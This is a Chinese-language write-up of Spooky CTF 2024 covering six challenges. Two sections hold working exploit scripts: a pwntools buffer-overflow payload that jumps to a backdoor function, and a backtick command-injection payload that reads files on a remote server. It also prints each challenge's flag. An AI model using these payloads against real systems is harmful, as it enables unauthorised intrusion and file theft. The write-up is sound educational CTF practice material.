







# Spooky CTF 2024

## the-gates-are-closed

在function列表裡面可以看到隱藏的function，使用base64解碼得到flag



## what-file

一樣在function列表裡面可以看到奇怪的函數





把裡面的字串都r出來之後再反轉就得到flag

```python
#!/usr/bin/env python

flag=['IN', 'CC', '{', 'hu', 'H', '@lf_', 'g', 'i_', 'IhT_', 'kn', '}']

ans=""
for f in flag:
    ans+=f[::-1]

print(ans)
#NICC{uhH_fl@g_i_ThInk}
```

## freezingprogram

看起來像是某種組合語言的變體，看了一下之後發現會在`start`裡面呼叫`main`

接著會做字串拼接，然後output

把裡面跟string有關的語句抓出來就可以拼出flag

```python
#!/usr/bin/env python

f=open("./freezingprogram.txt", "r")
ans=""
for x in f.readlines() :
    if("string" in x) :
        if("holds" in x) :
            ans+=x.split()[3].replace('"', "")

print(ans)
#NICC{hEy_th1s-is_Co0L}
```

## boofer

在main裡面有gets導致overflow，而且沒有canary



而且程式有後門函數，直接跳上去就會得到flag



```python
#!/usr/bin/env python
from pwn import *

context.log_level='critical'
context.arch='amd64'

host='b00fer.niccgetsspooky.xyz'
port=9001
epath='./boofer'

#r=process(epath)
r=remote(host, port)
e=ELF(epath)

payload = flat(cyclic(0x28), e.sym.win)
r.sendline(payload)

r.interactive()
r.close()

#NICC{Sp00ked_the_fl4g_0ut_of_m3}
```

## House of horrors

`handle_client`在處理input的時候使用shell來處理，可以用來做command injection

(`converse`裡面的有做檢查，只有`handle_client`這邊可以)



接著就是要想辦法讀flag，`shuffle_it`會把flag搬到一個隨機的位置

不過隨機的位置是在一個指定的範圍裏面:



因為沒有限制長度，直接把所有可能的位置都讀一遍

```python
#!/usr/bin/env python
from pwn import *
import base64

context.log_level="debug"

host="loabshouse.niccgetsspooky.xyz"
port=1337

r=remote(host, port)

r.recvuntil(b"Who dares enter my realm: ")
payload=b"`cat /tmp/singularity; cat /tmp/abyss; cat /tmp/orphans; cat /home/council; cat /tmp/.boom; "
payload+=b"cat /home/victim/.consortium; cat /usr/bnc/.yummyarbs; cat /tmp/.loab; cat /tmp/loab`"
r.sendline(payload)
r.recvline()
r.recvline()
flag=base64.b64decode(r.recvline())
print(str(flag))

r.close()
#NICC{Ju5t_pu7_l0@b_1n_rc3_or_h311_i_gu3ss}
```

## Mary Morse

這題直接用stegbrute

```
NICC{tHe_whIspeRz_iN_Th3_aiR}
```
